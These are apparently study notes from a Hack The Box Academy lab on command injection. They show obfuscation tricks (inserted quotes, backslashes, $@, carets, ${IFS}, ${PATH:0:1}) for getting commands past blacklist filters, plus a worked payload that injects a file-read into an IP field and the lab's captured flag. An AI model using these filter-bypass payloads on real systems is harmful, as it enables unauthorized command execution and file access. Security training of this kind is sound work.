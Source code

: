 ```yaml
---
sticker: emoji//1f4bb
---
```


# Bypassing Blacklisted Commands

We have discussed various methods for bypassing single-character filters. However, there are different methods when it comes to bypassing blacklisted commands. A command blacklist usually consists of a set of words, and if we can obfuscate our commands and make them look different, we may be able to bypass the filters.

There are various methods of command obfuscation that vary in complexity, as we will touch upon later with command obfuscation tools. We will cover a few basic techniques that may enable us to change the look of our command to bypass filters manually.

***

### Commands Blacklist

We have so far successfully bypassed the character filter for the space and semi-colon characters in our payload. So, let us go back to our very first payload and re-add the `whoami` command to see if it gets executed:&#x20;

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_1.jpg)

We see that even though we used characters that are not blocked by the web application, the request gets blocked again once we added our command. This is likely due to another type of filter, which is a command blacklist filter.

A basic command blacklist filter in `PHP` would look like the following:

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

As we can see, it is checking each word of the user input to see if it matches any of the blacklisted words. However, this code is looking for an exact match of the provided command, so if we send a slightly different command, it may not get blocked. Luckily, we can utilize various obfuscation techniques that will execute our command without using the exact command word.

***

### Linux & Windows

One very common and easy obfuscation technique is inserting certain characters within our command that are usually ignored by command shells like `Bash` or `PowerShell` and will execute the same command as if they were not there. Some of these characters are a single-quote `'` and a double-quote `"`, in addition to a few others.

The easiest to use are quotes, and they work on both Linux and Windows servers. For example, if we want to obfuscate the `whoami` command, we can insert single quotes between its characters, as follows:

```shell-session
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```

The same works with double-quotes as well:

```shell-session
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

The important things to remember are that `we cannot mix types of quotes` and `the number of quotes must be even`. We can try one of the above in our payload (`127.0.0.1%0aw'h'o'am'i`) and see if it works:

**Burp POST Request**

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_2.jpg)

As we can see, this method indeed works.

***

### Linux Only

We can insert a few other Linux-only characters in the middle of commands, and the `bash` shell would ignore them and execute the command. These characters include the backslash `\` and the positional parameter character `$@`. This works exactly as it did with the quotes, but in this case, `the number of characters do not have to be even`, and we can insert just one of them if we want to:

```bash
who$@ami
w\ho\am\i
```

Exercise: Try the above two examples in your payload, and see if they work in bypassing the command filter. If they do not, this may indicate that you may have used a filtered character. Would you be able to bypass that as well, using the techniques we learned in the previous section?

***

### Windows Only

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:

```cmd-session
C:\htb> who^ami

21y4d
```

## Question

***

![](Pasted%20image%2020250205143422.png)

We can do the following command:

```
127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

```ad-important
##### Breakdown
---
- **Command Injection Operator (`%0a`)**
    
    - Uses a new-line character to terminate the original command (e.g., `ping 127.0.0.1`) and inject a new command.
        
- **Obfuscated `cat` Command (`c'a't`)**
    
    - Inserts single quotes to bypass the `cat` command blacklist. The shell ignores the quotes and executes `cat`.
        
- **Space Replacement (`${IFS}`)**
    
    - Replaces the space between `cat` and the file path with the `Internal Field Separator` environment variable.
        
- **Slash Replacement (`${PATH:0:1}`)**
    
    - Extracts the `/` character from the `PATH` environment variable (e.g., `${PATH:0:1}` = `/`).
        
- **File Path**
    
    - Constructs the path to `flag.txt` as:  
        `/${PATH:0:1}home/${PATH:0:1}1nj3c70r/${PATH:0:1}flag.txt`.
```

This outputs:

```

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.013/0.013/0.013/0.000 ms
HTB{b451c_f1l73r5_w0n7_570p_m3}
```

Flag is `HTB{b451c_f1l73r5_w0n7_570p_m3}`
